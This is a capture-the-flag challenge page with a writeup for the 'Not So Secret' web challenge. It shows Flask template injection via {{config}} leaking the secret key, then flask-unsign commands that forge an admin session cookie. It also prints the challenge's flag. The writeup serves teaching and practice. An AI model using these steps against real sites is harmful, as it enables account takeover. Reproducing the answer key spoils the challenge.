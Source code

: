 # Not So Secret

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/blob/main/Web/Not%20So%20Secret/INSTALL.md)

### Description
I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can get into the admin user, I will give you a flag. 

Someone hacked my site after I read their message, so I am no longer reading DMs send to me! >:( On top of that, I am imposing an even harsher special character filter because I don't actually know how to patch my code.

p.s. To save you some time, don't try getting a reverse shell

### Difficulty
Medium

### Flag
`PCTF{y0u_can_s1gn_my_c00k13s_anyt1m3_;)}`

### Hints
1. Template injection
2. Sign your own cookie

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This web app is vulnerable to template injection. After signing up, send a test SSTI message `{{7*7}}`:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/49.png" width=40%  height=40%></p>

We see that 7*7 was evaluated to 49, so we have successful template injection. There is a filter in place blocking these characters: `._[]|\`. This is so you can't attempt to execute python code to run system commands 'cause I want it solved another way.

In flask, we can have it give us the config file with this `{{config}}`, so let's try that:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/ssti_config.png" width=40%  height=40%></p>

We see a `SECRET_KEY` set to `ifXEaNLEiDLIuquyRKzfeJJWzntoIm`. If we have the app's secret key, we can sign the session cookies used by the app. We'll use a tool called `flask-unsign` to do this for us (install w/ `pip3 install flask-unsign`).

Let's first decode our user's session cookie so we know the format. I use the Firefox extension `cookie editor` to do all of this:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/cookie_editor.png" width=40%  height=40%></p>

```console
$ flask-unsign --decode --cookie '.eJwlzjsOwjAMANC7ZGaIndiJe5nKvwjWlk6Iu1OJ_Q3vU_Z15Pks2_u48lH2V5StEHbpo3Nd1RqKDOuGWmUluufsPsBXDCRkng2gpbCBV01iEFgJLaoKhladZIBhrp2oUYwZrlNU0smYbjTnwMHALcAdsy6LckeuM4__Bsv3B3oyLwQ.YieZSw.Fox-K5Pj1Zq30KG5ZngqBFzRce8'

{'_fresh': True, '_id': '524947460f0b32997b4b2a09fe2cce84c71cfd72526683113e96b1c0ae56191fe13d0a92da0a85b12dbca45535d78dca89a9ec5b65a92887276163d1cc2e0fbd', '_user_id': '2'}
```
We see that the `_user_id` key has a value of `2`. We can assume that the admin user's `_user_id` must be `1`. Let's sign our new key:

```console
$ flask-unsign --sign --cookie "{'_fresh': True, '_id': '524947460f0b32997b4b2a09fe2cce84c71cfd72526683113e96b1c0ae56191fe13d0a92da0a85b12dbca45535d78dca89a9ec5b65a92887276163d1cc2e0fbd', '_user_id': '1'}" --secret 'ifXEaNLEiDLIuquyRKzfeJJWzntoIm'

.eJwlzjsOwjAMANC7ZGaIndiJe5nKvwjWlk6Iu1OJ_Q3vU_Z15Pks2_u48lH2V5StEHbpo3Nd1RqKDOuGWmUluufsPsBXDCRkng2gpbCBV01iEFgJLaoKhladZIBhrp2oUYwZrlNU0smYbjTnwMHALcAdsy6LckeuM4__Bsr3B3ovLwM.YieaAA.nYGnkeNzCLq7xT-gp_KWw8lrFrs
```

The final step is to change our session cookie value to the one we just got, and reload the webpage. We should be admin and have access to the admin panel:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/ssti_flag.png" width=60%  height=60%></p>
